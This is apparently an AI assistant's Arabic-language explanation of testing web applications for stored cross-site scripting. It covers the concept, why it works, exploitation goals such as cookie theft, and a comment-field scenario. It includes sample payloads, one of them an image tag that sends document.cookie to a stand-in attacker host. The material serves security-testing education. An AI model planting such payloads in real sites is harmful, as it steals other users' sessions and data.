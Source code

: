 بناءً على طلبك لشرح **اختبار ثغرة XSS المخزن (Test for Stored XSS)** باستخدام نفس طريقة الشرح المقدمة (التي تتضمن أقسامًا مثل "ما المقصود؟"، "لماذا يعمل؟"، "كيف يتم الاستغلال؟"، والخطوات العملية)، سأقدم شرحًا مفصلاً ومنظمًا لهذه العملية في اختبار ثغرات Cross-Site Scripting (XSS). سأغطي جميع المحاولات الممكنة لاختبار ثغرة XSS المخزن، مع التركيز على إدخال شيفرات JavaScript في نقاط إدخال (مثل التعليقات، منشورات المستخدم، أو حقول الملف الشخصي) التي تُخزن في قاعدة بيانات التطبيق وتُعرض لاحقًا للمستخدمين دون تنظيف كافٍ. سيتم تقسيم المحاولات إلى فئات (مثل حقن وسوم HTML، استخدام أحداث JavaScript، وتجاوز الفلاتر). سيتم تضمين المحتوى في علامة `<xaiArtifact>` كما هو مطلوب، مع معرف جديد لأن هذا طلب مستقل يركز على خطوة محددة. سأحافظ على الشرح باللغة العربية بأسلوب واضح ومنظم، متجنبًا تنسيق Markdown خارج العلامة بناءً على طلبك السابق.

---

## فهم الخطوة: اختبار ثغرة XSS المخزن (Test for Stored XSS)

### ما المقصود؟
اختبار ثغرة **XSS المخزن (Stored XSS)** هو عملية اختبار أمان لتحديد ما إذا كان التطبيق الإلكتروني عرضة لثغرة Cross-Site Scripting من النوع المخزن، حيث يتم إدخال شيفرة JavaScript ضارة في نقطة إدخال (مثل حقل تعليق، منشور مستخدم، أو وصف ملف شخصي)، تُخزن في قاعدة بيانات التطبيق، ثم تُعرض لاحقًا للمستخدمين الآخرين أو نفس المستخدم دون تنظيف أو تصفية كافية. تُسمى "مخزنة" لأن الشيفرة الضارة تُحفظ بشكل دائم وتؤثر على كل من يزور الصفحة التي تعرض البيانات المحقونة. الهدف هو تنفيذ شيفرة JavaScript في متصفح الضحية لأغراض مثل سرقة البيانات، التلاعب بالصفحة، أو تنفيذ إجراءات غير مصرح بها.

### لماذا يعمل؟
- **تخزين البيانات دون تنظيف**: التطبيقات التي لا تُنظف الإدخالات قبل حفظها في قاعدة البيانات قد تُخزن شيفرة JavaScript ضارة.
- **عرض البيانات في DOM**: عند استرجاع البيانات المخزنة وعرضها في HTML، يتم تنفيذ الشيفرة إذا لم تُنظف أو تُشفر بشكل صحيح.
- **دعم المتصفحات لـ JavaScript**: المتصفحات تُنفذ JavaScript تلقائيًا عند إدراجه في وسوم مثل `<script>`، أحداث مثل `onload`، أو بروتوكولات مثل `javascript:`.
- **تأثير واسع**: نظرًا لأن الشيفرة مخزنة، فإنها تؤثر على جميع المستخدمين الذين يشاهدون الصفحة المصابة، مما يجعلها خطيرة جدًا.
- **تجاوز الفلاتر البسيطة**: الفلاتر الضعيفة قد تحظر وسومًا مثل `<script>` ولكن تسمح بأحداث (`onerror`)، روابط (`javascript:`)، أو صيغ معقدة.

### كيف يتم الاستغلال؟
- يتم إدخال شيفرة JavaScript في نقطة إدخال تُخزن في قاعدة البيانات (مثل تعليق أو منشور) عبر طلب HTTP (عادةً POST).
- تُصمم الحقنة لتنفيذ شيفرة عندما يتم استرجاع البيانات المخزنة وعرضها في متصفح المستخدم، إما تلقائيًا (مثل `<script>` أو `<img onload>`) أو عند التفاعل (مثل النقر على رابط `javascript:`).
- تُستخدم الشيفرة لتنفيذ إجراءات ضارة مثل:
  - سرقة ملفات تعريف الارتباط (`document.cookie`).
  - استخراج محتوى الصفحة (`document.body.innerHTML`).
  - إعادة توجيه المستخدم إلى موقع ضار.
  - تتبع إدخالات المستخدم (مثل تسجيل كلمات المرور).
- يتم مراقبة خادم خارجي (للبيانات المسربة) أو استجابة المتصفح لتأكيد التنفيذ:
  - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه أو إرسال بيانات إلى خادم المهاجم).
  - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، قيود CSP، أو تنظيف الإدخال.
- تُكيَّف الحقن لتجاوز الفلاتر (مثل استخدام صيغ بديلة أو تعتيم الشيفرة).

### السناريو
لنفترض أنك تختبر موقعًا إلكترونيًا يحتوي على قسم تعليقات يسمح للمستخدمين بإدخال نصوص في حقل تعليق. لاحظت أن التعليقات تُخزن في قاعدة البيانات وتُعرض لجميع زوار الصفحة. حاولت إدخال `<script>alert('XSS')</script>` في حقل التعليق، ولاحظت ظهور تنبيه عند تحميل الصفحة التي تحتوي على التعليق. تريد الآن استخدام حقنة مثل `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">` لاستخراج بيانات حساسة من المستخدمين الآخرين الذين يشاهدون التعليق. إذا تلقى خادمك البيانات أو نُفذت الشيفرة، فهذا يؤكد وجود ثغرة XSS مخزن.

---
